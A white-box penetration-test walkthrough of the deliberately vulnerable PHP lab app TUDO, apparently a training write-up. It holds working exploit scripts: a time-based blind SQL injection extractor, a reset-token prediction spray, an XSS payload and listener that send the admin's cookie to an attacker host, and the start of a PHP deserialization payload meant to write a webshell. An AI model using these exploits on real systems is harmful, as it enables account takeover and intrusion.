

This is an intentionally vulnerable web application. There are 3 steps to complete the challenge, and multiple ways to complete each step.

```
You must gain access to either user1, or user2's account (2 possible ways)
Next, gain access to the admin account (1 possible ways)
Finally, find a way to remotely execute arbitrary commands (3 possible ways)
```

I would suggest to try and find every way to get the most out of TUDO. Bonus: Create a python script which chains together all 3 steps for a complete POC.

Note: The attack for step 2 may take up to a minute to complete, since the admin's actions are emulated with a cron job every minute on the target machine.

This is intended as a white-box penetration test, so open up VSCode, and read.

[Github Tudo Page](https://github.com/bmdyy/tudo)

# Diagram



## General Information

- Machine Name: Tudo
- IP Add: 172.17.0.2
- Machine OS: Linux
- Open Ports: 80
- Programming Language: Php
- Web root: /var/www/html

## Detailed Information

* [x] Authentication method:
  * [x] Hashing/salted or in clear: sha256
  * [x] Session cookies/tokens: PHPSESSID
  * [x] Password resets: Yes - we can predict
  * [x] Difference between admin and non-admin: Interface different
  * [x] Predictable token generation: Yes - we can predict
  * [x] SQLi in login methods: Yes, extract user hashes
* [x] SQLi in code: /forgotusername.php
  * [x] User controlled parameters: username
  * [x] Enumeration or run code: Hashes extracted
* [x] File uploads: Bypassed
  * [x] Blacklists: A lot
  * [x] Mime type: A lot
  * [x] Where are files stored: /images
* [x] Serialization: Php serialization - import_user.php
  * [x] Anything serialized or deserialized after authentication: Yes
  * [x] Param: userobj
* [x] SSTI: Smarty PHP
  * [x] Template version: Smarty Engine - 2.6.x
  * [x] Blacklists: None
  * [x] Run code: Yes
* [x] XSS: Yes
  * [x] Injectable fields: Description user tab
  * [x] Alert box: Yes
  * [x] Steal cookie: Yes
  * [x] CSRF: Not needed. Got admin token
* [x] Vulnerabilities discovered:
  * [x] Type: Token Spray, XSS, SQLinjection, SSTI, Serialization, File Upload
  * [x] PoC: motd_reverse.py, file_upload_reverse.py, serialization_reverse.py, spray.py
* [x] Reverse Shell:
  * [x] Bash: Got! In 3 different ways!

# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 172.17.0.2
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


On the source code we see three php files that we can access on the server


Befora start a code analysis in it, let's just try to understand how it works.

### login.php

We try to login with admin:123456, to see how a failed login attempt is


It's the same error with a non valid user. So, we don't have yet how to determine valid users on the app.

On burp we just see a phpssesid being setted, possibly in the future we will need to take care of it


## forgotusername.php

The forgot username seems to have a token generation. This is pretty interesting for a pentester because if we can predict the logic of the token creation we can bypass it easily


And here, for our happiness we can list valid users on the system

```
Forgetting your username can be very frustrating. Unfortunately, we can't just list all the accounts out for everyone to see. What we can do is let you look up your username guesses and we will check if they are in the system. Hopefully it won't take you too long :(
```

We try an invalid one


And a valid one


So, we know that we have a valid user called admin in this app!

## forgotpassword.php

On forgot password option seems that we can send a reset password token. Which is very good again for us


We try again, to send an invalid one


And a valid one


It does not show any error message


Ok. Got it. With this litte overview about how the app works. Let's start our code analysis here!

# First Code Analysis - Before Admin

We see the structure of the code in the vscode


We will start our analysis from the login.php file, trying to understand it's login mechanims

## login.php


```php
<?php
    session_start();
    if (isset($_SESSION['loggedin']) && $_SESSION['loggedin'] == true) {
        header('location: /index.php');
        die();
    }

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $password = hash('sha256',$_POST['password']);

        include('includes/db_connect.php');
        $ret = pg_prepare($db, "login_query", "select * from users where username = $1 and password = $2");
        $ret = pg_execute($db, "login_query", array($_POST['username'], $password));

        if (pg_num_rows($ret) === 1) {
            $_SESSION['loggedin'] = true;
            $_SESSION['username'] = $_POST['username'];

            if ($_SESSION['username'] === 'admin')
                $_SESSION['isadmin'] = true;

            header('location: /index.php');
            die();
        }
        else {
            $error = true;
        }
    }
?>
```

We see that it start testing to see if the session is already with the loggedin, if yes, redirect to index.php. If we are trying to login, it sha256 in the password, and test on the database to see if it matches you it's record. Then it set the user as admin, and you get logged in. Possibly we cannot inject any kind of command or trigger any vulnerability here. Let's continue.

Let's see the forget username

## forgetusername.php

This is a simple one


```php
<?php
    session_start();
    if (isset($_SESSION['loggedin']) && $_SESSION['loggedin'] == true) {
        header('location: /index.php');
        die();
    }

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $username = $_POST['username'];

        include('includes/db_connect.php');
        $ret = pg_query($db, "select * from users where username='".$username."';");

        if (pg_num_rows($ret) === 1) {
            $success = true;
        } else {
            $error = true;
        }
    }
?>
```

Just checks to see if you already logged in, if not get the db connection and test it, possibly we can try some kind of sqlinjection here. So we try one simple payload and see that it worked fine!

```
username=0x4rt3mis';select+pg_sleep(3);--
```


Ok, we can extract data from there, after when I finish the summary code analysis I'll explore this vuln

```
username=0x4rt3mis';SELECT+CASE+WHEN+COUNT((SELECT+username+FROM+users+WHERE+SUBSTR(username,1,5)+SIMILAR+TO+'admin'))<>0+THEN+pg_sleep(5)+ELSE+''+END;+--+-
```

Let's analyse the forget password for now

## forgetpassword.php


```php
<?php
    session_start();
    if (isset($_SESSION['loggedin']) && $_SESSION['loggedin'] == true) {
        header('location: /index.php');
        die();
    }

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $username = $_POST['username'];

        if ($username != 'admin') {
            include('includes/db_connect.php');
            $ret = pg_prepare($db, "checkuser_query", "select * from users where username = $1");
            $ret = pg_execute($db, "checkuser_query", array($_POST['username']));

            if (pg_num_rows($ret) === 1) {
                $row = pg_fetch_row($ret)[0];

                include('includes/utils.php');
                $token = generateToken();

                $ret = pg_prepare($db, "createtoken_query", "insert into tokens (uid, token) values ($1, $2)");
                $ret = pg_execute($db, "createtoken_query", array($row, $token));

                $success = true;
            }
            else {
                $error = true;
            }
        }
    }
?>
```

Again, it checks to see if the user is logged in, if the user **is not the admin** it generates a token with the `generateToken()` function, which one we will se after, to understand how it works. If the user is the admin, it just send a message. We need to discover more users on the app, to see what it show us.

We see a reset password file too. Let's analyse it.

## resetpasssword.php

When we try to open it on the browser, we receive an error token message


We see the code


```php
<?php
    session_start();
    if (isset($_SESSION['loggedin']) && $_SESSION['loggedin'] == true) {
        header('location: /index.php');
        die();
    }

    if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        include('includes/db_connect.php');
        $ret = pg_prepare($db, "checktoken_query", "select * from tokens where token = $1");
        $ret = pg_execute($db, "checktoken_query", array($_GET['token']));

        if (pg_num_rows($ret) === 0) {
            $invalid_token = true;
        }
    }
    else if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        if (!isset($_POST['token'])) {
            echo 'invalid request';
            die();
        }

        $token = $_POST['token'];
        $password1 = $_POST['password1'];
        $password2 = $_POST['password2'];

        if ($password1 !== $password2) {
            $pass_error = true;
        }
        else {
            include('includes/db_connect.php');
            $ret = pg_prepare($db, "checktoken_query", "select * from tokens where token = $1");
            $ret = pg_execute($db, "checktoken_query", array($token));

            if (pg_num_rows($ret) === 0) {
                $invalid_token = true;
            } else {
                $uid = pg_fetch_row($ret)[1];
                $newpass = hash('sha256', $password1);

                $ret = pg_prepare($db, "changepassword_query", "update users set password = $1 where uid = $2");
                $ret = pg_execute($db, "changepassword_query", array($newpass, $uid));

                $ret = pg_prepare($db, "deletetoken_query", "delete from tokens where token = $1");
                $ret = pg_execute($db, "deletetoken_query", array($token));

                $success = true;
            }
        }
    }
?>
```

It checks to see if the user is logged in or not. And test the post parameter token with the one in the database, so if we extract or generate valid ones we can change users passwords in this app!

Let's see the utils.php

## inclues/utils.php

This one is pretty interesting, once we can predict the token generation for the app


```php
<?php
    function generateToken() {
        srand(round(microtime(true) * 1000));
        $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';
        $ret = '';
        for ($i = 0; $i < 32; $i++) {
            $ret .= $chars[rand(0,strlen($chars)-1)];
        }
        return $ret;
    }

    class User {
        public function __construct($u, $p, $d) {
            $this->username = $u;
            $this->password = $p;
            $this->description = $d;
        }
    }

    class Class_Post {
        public function __construct($c, $n, $p, $e, $d) {
            $this->code = $c;
            $this->name = $n;
            $this->professor = $p;
            $this->ects = $e;
            $this->description = $d;
        }
    }

    class Log {
        public function __construct($f, $m) {
            $this->f = $f;
            $this->m = $m;
        }
        
        public function __destruct() {
            file_put_contents($this->f, $this->m, FILE_APPEND);
        }
    }
?>
```

The most important is the generateToken() and the Lo class. The first we can predict the token generation, and get a valid one to change some user password, and the last one we possible can make some LFI with th file_put_contents.

For now it's okay. We got a SQLInjection and a token predicition to work in it. Possibly we can bypass the authentication with these options. After we got admin user we return to the code analysis and see what the admin can do.

## SQLInjection forgotusername

Let's explore the sqlinjection we found earlier and see if we can get some information about the server with it

With this query we see that we have a admin user in the database


Let's make a exploit to do this all stuff together

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is, we extracted the sha256 hash for the users: admin, user1 and user2


sqli_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Exploit to extract username and password for all users
# Time Based Blind SQLInjection
# Tudo - bmdyy

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
headers = {"Content-Type": "application/x-www-form-urlencoded"}

'''Here come the Functions'''
# Function to extract the hash for the username selected
def hashExtractTimeBased(rhost,uid):
    global password
    url = "http://%s" %rhost + "/forgotusername.php"
    password = []
    list = string.digits + string.ascii_letters
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The password is: ")
    while(iterator < len(list)):
        for c in list[iterator]:
            data = "username=0x4rt3mis';SELECT+CASE+WHEN+COUNT((SELECT+password+FROM+users+WHERE+uid=" + uid +"+AND+SUBSTR(password," + str(limit_inf) + "," + str(limit_sup) + ")+SIMILAR+TO+'" + c + "'))<>0+THEN+pg_sleep(2)+ELSE+''+END;+--+-"
            res = requests.post(url, data=data, proxies=proxies, headers=headers)
            elapsed = res.elapsed.total_seconds()
            if elapsed > int(2):
                password.append(c)
                limit_inf = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
    password = ''.join(password)
    
# Function to extract username selected
def usernameExtractTimeBased(rhost,uid):
    global password
    url = "http://%s" %rhost + "/forgotusername.php"
    password = []
    list = string.ascii_letters + string.digits
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The username is...")
    while(iterator < len(list)):
        for c in list[iterator]:
            data = "username=0x4rt3mis';SELECT+CASE+WHEN+COUNT((SELECT+username+FROM+users+WHERE+uid=" + uid + "+AND+SUBSTR(username," + str(limit_inf) + "," + str(limit_sup) + ")+SIMILAR+TO+'" + c + "'))<>0+THEN+pg_sleep(2)+ELSE+''+END;+--+-"
            res = requests.post(url, data=data, proxies=proxies, headers=headers)
            elapsed = res.elapsed.total_seconds()
            if elapsed > int(2):
                password.append(c)
                limit_inf = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
    password = ''.join(password)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--uid', help='Target UID user', required=True)

    args = parser.parse_args()
    
    uid = args.uid
    rhost = args.target

    '''Here we call the functions'''
    usernameExtractTimeBased(rhost,uid)
    print()
    hashExtractTimeBased(rhost,uid)
    print()
    
if __name__ == '__main__':
    main()
```

And now, it's easy to decrypt the passwords

```
admin:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918
user1:0a041b9462caa4a31bac3567e0b6e6fd9100787db2ab433d96f6d178cabfce90
user2:6025d18fe48abd45168528f18a82e265dd98d421a7084aa09f61b341703901a3
```

```bash
john --format=raw-sha256 hashes.txt --wordlist=list.txt
```


And we got the three passwords done.

# ResetToken Spray - User1 Login

Once we got the username and passwords, let's try to make the token generator working too. Just for a good practice.

This is the function we will need to reproduce to get the token spray working fine

```php
function generateToken() {
    srand(round(microtime(true) * 1000));
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';
    $ret = '';
    for ($i = 0; $i < 32; $i++) {
        $ret .= $chars[rand(0,strlen($chars)-1)];
    }
    return $ret;
}
```

Setting it to a php script


Looking at the script, it's using the function srand, to get an arbitrary seed to generate the token value, so this value we can almost predict in python, and generate a list of possible tokens, and then get the password for the user1 and user2 changed, for the admin we cannot do that because it checks to see if it's the admin and did not generate a token for it.

Here it is


spray.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Token Spray - Change password for an user - Get Admin Token
# bmdyy - Tudo

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    print("[+] Let's get the current time to make the seed !! [+]")
    url = 'http://' + rhost
    b = r.get(url, proxies=proxies)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    return currentTime * 1000
    print("[+] Done! [+]")

# Send the token to be sprayed
def sendToken(rhost,username): 
    print("[+] Send the token for the username: %s ! [+]" %username)
    url = "http://%s:80/forgotpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Sent ! [+]")
    
# Function to mount the php payload to make the spray
def mountPhpSpray(seed1,seed2):
    print("[+] Let's mount the php seed generator ! [+]")
    payload = "<?php\n"
    payload += "function generateToken($value) {\n"
    payload += "    srand(round($value));\n"
    payload += "    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';\n"
    payload += "    $ret = '';\n"
    payload += "    for ($i = 0; $i < 32; $i++) {\n"
    payload += "        $ret .= $chars[rand(0,strlen($chars)-1)];\n"
    payload += "    }\n"
    payload += "    return $ret;\n"
    payload += "}\n"
    payload += "foreach (range(" + str(seed1) + "," + str(seed2) + ") as $value) {\n"
    payload += "    echo generateToken($value);\n"
    payload += "    echo \"\\n\";\n"
    payload += "}\n"
    payload += "?>\n"
    f = open("spray.php", "w")
    f.write(payload)
    f.close()
    os.system("php spray.php > seed_list.txt")
    print("[+] Seed list created ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url = "http://%s:80/resetpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    f = open("seed_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        data = {"token": "%s" %token_value, "password1": "123456", "password2": "123456"}
        res = r.post(url, headers=headers, data=data, proxies=proxies)    
        if res.headers['Content-Length'] != "578":
            print("[+] Password Changed !! [+]")
            print("[+] Token Used: %s ! [+]" %token_value) 
            print("[+] New password: 123456 [+]")
            break
        else:
            continue

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be changed', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    
    '''Here we call the functions'''
    # Get the seed1
    seed1 = getCurrentTime(rhost)
    os.system("sleep 1")
    # Send the token
    sendToken(rhost,username)
    # Get the seed2
    os.system("sleep 1")
    seed2 = getCurrentTime(rhost)
    # Generate the spray payload list
    mountPhpSpray(seed1,seed2)
    # Let's bruteforce it
    sprayToken(rhost)
    # Clean up
    os.system("rm spray.php")
    os.system("rm seed_list.txt")
    
if __name__ == '__main__':
    main()
```

Got it. Now we can login as user1 and try to get the admin, once I already know that there is some kind of cron running on the system


Logged in


# User1 Overview

Let's see what we can get with the new page we access once we are logged in

The only interesting thing here is the post part


Seems that we can send data to the server. So let's create on to see how the server works


The message was created


And in burp we got the message sent on a POST request


We can see too the profile from the user1


And we can change the description field, which is interesting

We upload, and see the request on burp


# Second Code Analysis - User1 Perspective

Once we know that we can send messages to the server, and possible the admin will look at it, let's try to understand how the code will work

We open the includes/createpost.php


```php
<?php
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $lvaCode = $_POST['lvaCode'];
        $lvaName = $_POST['lvaName'];
        $professor = $_POST['professor'];
        $ects = $_POST['ects'];
        $description = $_POST['description'];

        if ($lvaCode!=="" && $lvaName!=="" && $professor!=="" && $ects!=="" && $description!=="") {
            include('db_connect.php');
            $ret = pg_prepare($db,
                "createpost_query", "insert into class_posts (code, name, professor, ects, description) values ($1, $2, $3, $4, $5)");
            $ret = pg_execute($db, "createpost_query", array($lvaCode,$lvaName,$professor,$ects,$description));
        }
    }
    header('location:/index.php');
    die();
?>
```

And here we see that what just happens is that it's sending the values to the database.

We can see the profile.php file too


```php
<?php 
    session_start();
    if (!isset($_SESSION['loggedin']) || !$_SESSION['loggedin'] == true) {
        header('location: /login.php');
        die();
    } 

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        if (!isset($_POST['description'])) {
            $error = true;
        }
        else {
            $description = $_POST['description'];
            
            include('includes/db_connect.php');
            $ret = pg_prepare($db, "updatedescription_query", "update users set description = $1 where username = $2");
            $ret = pg_execute($db, "updatedescription_query", Array($description, $_SESSION['username']));
            $success = true;
        }
    }
?>
```

Ok. Just change the description of the user. But where it's being written?

If we look at index.php we found that it's triggering our user controlled params in html tags


Which means that we can get XSS if someone look at this page! And it's that the admin is doing here

# XSS Admin Token

We mount a simple html file to resume what we are going to do here now

xss.html

```php
<html>
<?php
echo '<td>document.write(''<script src="http://172.17.0.1:8000/XSS_Testing"></script>'');</td>';
?>
</html>
```

And now just access localhost and see it gets on our port 8000


Now, let's build our simple payload to get the admin cookie

```php
<script src="http://172.17.0.1/steal.js"></script>
```

steal.js

```js
function send_cookie(){
        var req=new XMLHttpRequest();
        req.open('GET', 'http://172.17.0.1/?xss=' + document.cookie, true);
        req.send();
}

send_cookie();
```


And we got it!


How about the get the admin page now?

```js
function send_cookie(){
        var req=new XMLHttpRequest();
        req.open('GET', 'http://172.17.0.1/?xss=' + btoa(document.body.innerHTML),true);
        req.send();
}

send_cookie();
```

We got the admin page


And open it


We see that it's still loading the js file


Let's make a python listener to catch the admin token as a variable!

# Auto XSS

This script will get the admin token automatically, with the auto brute force


spray.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Token Spray - Change password for an user - Get Admin Token
# bmdyy - Tudo

import argparse
import requests
import sys
import datetime
import time
import requests
import os
import subprocess
import socket
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler


'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    print("[+] Let's get the current time to make the seed !! [+]")
    url = 'http://' + rhost
    b = r.get(url, proxies=proxies)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    return currentTime * 1000
    print("[+] Done! [+]")

def sendToken(rhost,username): 
    print("[+] Send the token for the username: %s ! [+]" %username)
    url = "http://%s:80/forgotpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Sent ! [+]")
    
# Function to mount the php payload to make the spray
def mountPhpSpray(seed1,seed2):
    print("[+] Let's mount the php seed generator ! [+]")
    payload = "<?php\n"
    payload += "function generateToken($value) {\n"
    payload += "    srand(round($value));\n"
    payload += "    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';\n"
    payload += "    $ret = '';\n"
    payload += "    for ($i = 0; $i < 32; $i++) {\n"
    payload += "        $ret .= $chars[rand(0,strlen($chars)-1)];\n"
    payload += "    }\n"
    payload += "    return $ret;\n"
    payload += "}\n"
    payload += "foreach (range(" + str(seed1) + "," + str(seed2) + ") as $value) {\n"
    payload += "    echo generateToken($value);\n"
    payload += "    echo \"\\n\";\n"
    payload += "}\n"
    payload += "?>\n"
    f = open("spray.php", "w")
    f.write(payload)
    f.close()
    os.system("php spray.php > seed_list.txt")
    print("[+] Seed list created ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url = "http://%s:80/resetpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    f = open("seed_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        data = {"token": "%s" %token_value, "password1": "123456", "password2": "123456"}
        res = r.post(url, headers=headers, data=data, proxies=proxies)    
        if res.headers['Content-Length'] != "578":
            print("[+] Password Changed !! [+]")
            print("[+] Token Used: %s ! [+]" %token_value) 
            print("[+] New password: 123456 [+]")
            break
        else:
            continue
            
# Function to login as the user sprayed
def loginUser(rhost,username):
    print("[+] Let's login with the user: %s !! [+]" %username)
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username, "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In ! [+]")
    
# Function to mount the XSS payload
def mountJS(lhost,lport):
    print("[+] Let's build our JS !!! [+]")
    payload = "function send_cookie(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        req.open('GET', 'http://%s:%s/' + document.cookie, true);\n" %(lhost,lport)
    payload += "        req.send();\n"
    payload += "}\n"
    payload += "send_cookie();"
    f = open("steal.js", "w")
    f.write(payload)
    f.close()
    print("[+] Done ! [+]")
    
# Function to set the xss on the right place
def putXSS(rhost,lhost):
    print("[+] Planting the XSS ! [+]")
    url = "http://%s:80/profile.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"description": "<script src=\"http://%s/steal.js\"></script>" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Done ! [+]")
    
# Function to way the xss be triggered and get the token
def getToken(lhost,lport):
    print("[+] Listener on port %s to receive the token ![+]"%lport)
    s = socket.socket()
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((lhost,int(lport)))
    s.listen()
    
    print("[+] Waiting for admin to trigger XSS !!! [+]")
    (sock_c, ip_c) = s.accept()
    get_request = sock_c.recv(4096)
    admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")
    print(admin_cookie)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be changed', required=True)
    parser.add_argument('-li', '--localhost', help='Local Host', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    lhost = args.localhost
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Mount the JS payload
    mountJS(lhost,lport)
    # Get the seed1
    seed1 = getCurrentTime(rhost)
    os.system("sleep 1")
    # Send the token
    sendToken(rhost,username)
    # Get the seed2
    os.system("sleep 1")
    seed2 = getCurrentTime(rhost)
    # Generate the spray payload list
    mountPhpSpray(seed1,seed2)
    # Let's bruteforce it
    sprayToken(rhost)
    # Let's login
    loginUser(rhost,username)
    # Let's plant the xss
    putXSS(rhost,lhost)
    # Get the admin token
    getToken(lhost,lport)
    # Clean up
    os.system("rm spray.php")
    os.system("rm seed_list.txt")
    os.system("rm steal.js")
    
if __name__ == '__main__':
    main()
```

Now, just change the token, and we become admin!


Let's hunt RCE now.

# RCE

The see three different pages in the admin section


update_motd.php


We see both of them in burp


A normal upload folder, possible we have some kind of filters here, we will see it in the code analyse

Seems to be a greeting message and a upload file

And the import_user.php


Seems that it's rendering some data here.


# Code Analysis - RCE

Now, let's get the code of the three files and try to understand what is happening here

import_user.php


```php
<?php
    include('../includes/utils.php');

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $userObj = $_POST['userobj'];
        if ($userObj !== "") {
            $user = unserialize($userObj);
            include('../includes/db_connect.php');
            $ret = pg_prepare($db,
                "importuser_query", "insert into users (username, password, description) values ($1, $2, $3)");
            $ret = pg_execute($db, "importuser_query", array($user->username,$user->password,$user->description));
        }
    }
    header('location:/index.php');
    die();
?>
```

We have the unserialize function in php, it's vulnerable to deserealization, so we can get RCE from there.

update_mod.php


```php
<?php
    session_start();
    if (!isset($_SESSION['isadmin'])) {
        header('location: /index.php');
        die();
    }

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $message = $_POST['message'];

        if ($message !== "") {
            $t_file = fopen("../templates/motd.tpl","w");
            fwrite($t_file, $message);
            fclose($t_file);

            $success = "Message set!";
        } else {
            $error = "Empty message";
        }
    }
?>
```

Possibly we can exploit here via SSTI, because it's rendering a template, after I'll do a better research in it.

upload_image.php


```php
<?php
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        if ($_FILES['image']) {
            $validfile = true;

            $is_check = getimagesize($_FILES['image']['tmp_name']);
            if ($is_check === false) {
                $validfile = false;
                echo 'Failed getimagesize<br>';
            }

            $illegal_ext = Array("php","pht","phtm","phtml","phpt","pgif","phps","php2","php3","php4","php5","php6","php7","php16","inc");
            $file_ext = pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION);
            if (in_array($file_ext, $illegal_ext)) {
                $validfile = false;
                echo 'Illegal file extension<br>';
            }

            $allowed_mime = Array("image/gif","image/png","image/jpeg");
            $file_mime = $_FILES['image']['type'];
            if (!in_array($file_mime, $allowed_mime)) {
                $validfile = false;
                echo 'Illegal mime type<br>';
            }

            if ($validfile) {
                $path = basename($_FILES['image']['name']);
                $title = htmlentities($_POST['title']);

                move_uploaded_file($_FILES['image']['tmp_name'], '../images/'.$path);

                include('../includes/db_connect.php');
                $ret = pg_prepare($db,
                    "createimage_query", "insert into motd_images (path, title) values ($1, $2)");
                $ret = pg_execute($db, "createimage_query", array($path, $title));

                echo 'Success';
            }
        }
    }

    header('location:/admin/update_motd.php');
    die();
?>
```

Here we have an upload place, where we can see if it's possible to bypass these filters and get the file uploaded to the server

Let's exploit!

# 1º RCE - Serialize

The first one we will exploit will be the `unserialize` function on the import user function.

We will follow the same thing I did on the Tenet HackTheBox [php serialization](https://0x4rt3mis.github.io/posts/HackTheBox-Tenet/#php-serialization---www-data-shell).

Both of them are very similar.

Once we got a point which seems to be serializing data, let’s search to understand how it works.

[IppSec](https://www.youtube.com/watch?v=HaW15aMzBUM) has this awesome video which explains in details how serialization in php works.

Serialization is the act of taking an object from memory in some language and converting it to a format that can be saved as a file. Deserialization is the reverse, taking that string or binary and converting it back into an object within the context of a running program.

## Exploitaion Overview

After had watched the video above and understand a little how it works. Let’s start crafting our payload to send to the tenet server.

[Here](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) we see how to built our payload.

We see that the import_user.php in importing the utils.php file, and in this file we have a class very interesting

```php
class Log {
    public function __construct($f, $m) {
        $this->f = $f;
        $this->m = $m;
    }    
    public function __destruct() {
        file_put_contents($this->f, $this->m, FILE_APPEND);
    }
}
```

We have the class Log, which implements the function **__desctruct** This is the function where we’ll get RCE. This function is using a file_put_contents.

1 - Let's create a php file on our box with a Log function, which defines the $f and $m.

2 - We serialize it to send to our tenet box.

3 - We send it to the server as POST param.

4 - The __destruct function will write it to the server with the name we choosen. And then we can execute it and get a reverse shell on the box.

```php
<?php
class Log {
  public $f = '/var/www/html/0x4rt3mis.php';
